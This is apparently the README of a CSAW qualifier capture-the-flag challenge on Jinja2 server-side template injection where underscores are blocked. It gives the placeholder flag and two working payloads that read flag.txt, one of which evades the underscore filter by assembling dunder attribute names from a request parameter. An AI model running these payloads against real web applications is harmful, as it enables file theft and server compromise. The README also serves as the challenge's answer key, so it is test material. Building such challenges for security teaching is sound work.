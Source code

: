 # CSAW-SSTI
Repo containing an SSTI challenge for the upcoming CSAW quals



# Challenge Description

This demonstrates a basic SSTI on the Jinja2 platform, but you are not allowed to use underscores.
The flag is stored in 'flag.txt'. 


# Flag

`CSAW{Plac3h0ld34_f1ag}`



# Example payload 

If underscores were allowed :-  
`http://localhost:5000/submit?value={{''.__class__.__mro__[2].__subclasses__()[40] ('flag.txt').read() }} `

But since they aren't :-

```
http://localhost:5000/submit?value={{ (('' | attr( [request.args.underscore*2, 'class'  ,request.args.underscore*2] | join) | attr( [request.args.underscore*2, 'mro'  ,request.args.underscore*2] | join  ) )[2] | attr([request.args.underscore*2, 'subclasses'  ,request.args.underscore*2] | join)())[40]  ('flag.txt').read() }}&underscore=_
```